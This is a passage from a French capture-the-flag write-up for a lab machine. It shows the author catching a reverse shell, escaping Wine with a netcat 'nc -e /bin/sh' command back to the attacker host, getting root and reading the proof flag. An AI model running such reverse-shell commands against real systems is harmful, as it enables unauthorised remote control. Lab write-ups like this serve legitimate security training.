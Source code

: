 ```python
```

Avec ça je peux recevoir mon reverse shell et j'échape immédiatement du Wine pour créer un autre reverse shell (Linux cette fois) :

```shellsession
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.51.
Ncat: Connection from 192.168.56.51:33480.
Microsoft Windows 6.1.7601 (4.0)

Z:\> start /unix /bin/nc.traditional -e /bin/sh 192.168.56.1 7777
```

```shellsession
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.51.
Ncat: Connection from 192.168.56.51:40212.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@school:/root# ls
proof.txt  win
root@school:/root# cat proof.txt
ccc34dede451108a8fe6f75d6ea7d2ae
```

Oups, c'était rapide ! Je n'avais pas fait attention que le process tournait en root (j'aurais du tilter au numéro de port).

CTF d'autant plus rapide que je n'ai eu qu'à adapter l'exploit déjà existant et survoler la partie de RE.
